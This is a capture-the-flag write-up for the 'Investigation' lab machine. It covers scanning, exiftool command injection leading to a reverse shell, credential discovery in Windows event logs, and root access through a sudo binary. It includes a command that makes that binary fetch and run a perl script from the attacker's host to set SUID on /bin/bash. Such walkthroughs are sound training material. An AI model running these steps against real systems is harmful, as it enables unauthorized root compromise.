 # Investigation!
## @Author : M3tr1c_r00t
![Investigation](https://user-images.githubusercontent.com/99975622/221430198-7923c2ad-9139-445b-8226-31bb53e64096.png)
Investigation is a medium linux machine in which to gain foothold, we use a command injection vulnerability on a vulnerable outdated exiftool version, analysing a microsoft outlook file and find some logs and find creds to the user and some binary explaitation and reverse engineering to get root priviledges.
### Enumeration
#### Nmap
```
# Nmap 7.93 scan initiated Sat Jan 21 19:12:37 2023 as: nmap -sC -sV -A -p 22,80 -oN nmapports.txt 10.129.9.197
Nmap scan report for eforenzics.htb (10.129.9.197)
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: eForenzics - Premier Digital Forensics
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   245.36 ms 10.10.14.1
2   247.05 ms eforenzics.htb (10.129.9.197)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 21 19:12:59 2023 -- 1 IP address (1 host up) scanned in 22.59 seconds
```
#### Gobuster
```
/.htaccess           [33m (Status: 403)[0m [Size: 279]
/.hta                [33m (Status: 403)[0m [Size: 279]
/.htpasswd           [33m (Status: 403)[0m [Size: 279]
/assets              [36m (Status: 301)[0m [Size: 317][34m [--> http://eforenzics.htb/assets/][0m
/index.html          [32m (Status: 200)[0m [Size: 10957]
/server-status       [33m (Status: 403)[0m [Size: 279]
```

### Foothold as www-data
Since there is a web server running on port 80, we can take a look at it.
![Screenshot_2023-01-21_21_38_51](https://user-images.githubusercontent.com/99975622/221430354-d6e55c7a-048e-4a7e-b00b-2431d980534f.png)
If we click on the go service to be able to access the image forensics service, we get redirected to an upload pane.
![Screenshot_2023-01-21_21_38_56](https://user-images.githubusercontent.com/99975622/221430504-709dc1ab-c760-4ca5-9924-2d456a4815d5.png)
With that, we can try to upload an image(real) and see what the site does.
![Screenshot (90)](https://user-images.githubusercontent.com/99975622/221430916-a954784d-c4f2-4c03-a301-32039efa1bdf.png)
The site gives us a link and if we visit it, we get the exifdata of the image from the output of exiftool.
![Screenshot (91)](https://user-images.githubusercontent.com/99975622/221430966-a5295ef3-d672-4667-8784-c7ee20a38372.png)
If you look keenly on the vesion number, we can see it is ```12.37``` which seems to be a bit outdated from the one on the terminal.

With this information on hand, we can try and see if we can get a public exploit and boom!
```
https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
```
![Screenshot (92)](https://user-images.githubusercontent.com/99975622/221431104-92008a3d-1b15-40c2-9332-5fdba5d05722.png)
Since we can see that there is a command injection vulnerability, we can exploit this to get a reverse shell onto our box.
So i made a sh reverse shell payload, put it in index.html then piped this to bash to get a shell.
(You could also have just done the payload directly onto burp...)
![Screenshot_2023-01-21_21_40_26](https://user-images.githubusercontent.com/99975622/221431232-db44338f-6a63-4904-8462-287e8dee11b5.png)

### WWW-data to user
After stabilizing the shell, I run linpeas and got an interesting file....
![image](https://user-images.githubusercontent.com/99975622/221433224-685a2cb5-bd3b-4a77-a650-9bb7c282b671.png)
I had never come along a ```.msg``` file extension, I asked chatgpt for some help and it turns out, this is an email.
![image](https://user-images.githubusercontent.com/99975622/221433643-cdbe8c77-3448-45f7-aa44-7141f72c46a2.png)
We can use an online .msg file viewer instead of using the microsoft outlook applicaton.
We find an attached zip file.
![Screenshot_2023-01-21_20_31_55](https://user-images.githubusercontent.com/99975622/221433856-99accc13-9a4e-4d0e-bc03-fe1679511950.png)

We can also use outlook to view this...
![image](https://user-images.githubusercontent.com/99975622/221433813-75aca4d8-aac1-40d0-9d21-22138e90b6bb.png)
done..
You can also just right click on the file and select open with outlook.
![Screenshot (3)](https://user-images.githubusercontent.com/99975622/221434969-8c462a04-7a88-4108-b89f-f5715996a529.png)
and there.
![Screenshot (4)](https://user-images.githubusercontent.com/99975622/221435000-3bfcda3c-5d86-4c1e-a5c8-5ff2ae6b0db7.png)
If we unzip the file, we find there is an.evtx file.
![Screenshot_2023-01-21_21_36_12](https://user-images.githubusercontent.com/99975622/221434661-913ed052-5f08-48cb-8089-7235c4f147b1.png)
The .evtx file extension is used for Microsoft Windows Event Log files. These files contain a record of system, application, and security events that have occurred on a computer running Windows. The Windows Event Log is a centralized, standardized way for Windows applications and services to record important system events, warnings, and errors.

The .evtx files can be viewed using the Windows Event Viewer, which is a built-in utility in Windows operating system. The Event Viewer allows you to view the contents of the .evtx files and analyze the events recorded within them. 

Well, since i was doing this box on a linux box, i searched for a converter and was able to convert this file to an xml file.
![Screenshot_2023-01-21_21_35_35](https://user-images.githubusercontent.com/99975622/221435237-4fad690c-e945-4952-8f66-bfe846419f61.png)
Since there was so much junk, i used the sort and uniq command to only see data which was not as much redundant.

And we find some creds to the smorton user.
![Screenshot_2023-01-21_21_34_20](https://user-images.githubusercontent.com/99975622/221435349-b465c61c-f5c1-4cc9-a93d-d57e1c6b0e5d.png)

You could have analysed the file using windows event viewer but the filtering was a bit odd.
![Screenshot (94)](https://user-images.githubusercontent.com/99975622/221435684-b6c48cba-4dff-4047-b0b2-8133a48d0828.png)
And we get the user flag.

### User to root
If we look at our sudo permissions, we can run a wierd binary as root.

![Screenshot (95)](https://user-images.githubusercontent.com/99975622/221435717-4ac1065f-2334-4bc0-9f80-79c236c1461a.png)
So with that, i transferred the binary to my machine for further analysis.
![Screenshot (18)](https://user-images.githubusercontent.com/99975622/221435954-b26c7411-f77a-4ae7-a950-b67a8ace8cb6.png)
#### Explanation of what the binary is doing.
The function begins by checking the value of the first parameter, param_1. If it is not equal to 3, the program prints "Exiting... " and exits with a status of 0 using the exit(0) function.

The next check is to ensure that the user running the program has a user ID of 0 (indicating that they are the root user). This is done using the getuid() function, which returns the user ID of the current user. If the user ID is not 0, the program again prints "Exiting... " and exits with a status of 0.

The program then uses the strcmp function to compare the string at memory address param_2 + 0x10 with the string "lDnxUysaQn". If the two strings are not equal, the program again prints "Exiting... " and exits with a status of 0.

If all of the previous checks pass, the program prints "Running... " to indicate that it is proceeding with the rest of the actions.

The program then opens a file with the same name as the string "lDnxUysaQn" in binary write mode using the fopen function, and assigns the file pointer to the variable __stream.

It then uses the curl library to download a file from the URL specified by the memory address param_2 + 8, and writes it to the previously opened file using the curl_easy_setopt and curl_easy_perform functions.

If the file was successfully downloaded, the program then constructs a string with the command "perl ./lDnxUysaQn" using the snprintf and malloc functions, and uses the system function to execute this command as the root user.

The program then uses the system function to delete the file "lDnxUysaQn" and the curl_easy_cleanup function to cleanup the resources allocated by the curl library.

If any of the previous steps fail, the program will print "Exiting... " and exit with a status of 0.
#### Exploiting the binary.
With that info, we can now bypass all the checks.
So to bypass this, we need to create a perl file which will make the /bin/bash binary suid executable.
We can put this file on our machines since we need to assign it a url.
With that, we can now exploit the binary.
```
echo "system("chmod u+s /bin/bash");" > root.pl
```
executing this binary
```
sudo /usr/bin/binary http://<ip>/root.pl lDnxUysaQn
```
![Screenshot (20)](https://user-images.githubusercontent.com/99975622/221436671-e1fe0f5f-bdc0-44bd-8038-0d2cf6dc2dce.png)
Let's check if it works.
![Screenshot (21)](https://user-images.githubusercontent.com/99975622/221436725-10d4a770-3d16-4ce6-96c1-9c78a46bd930.png)
We're root!
And done!

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
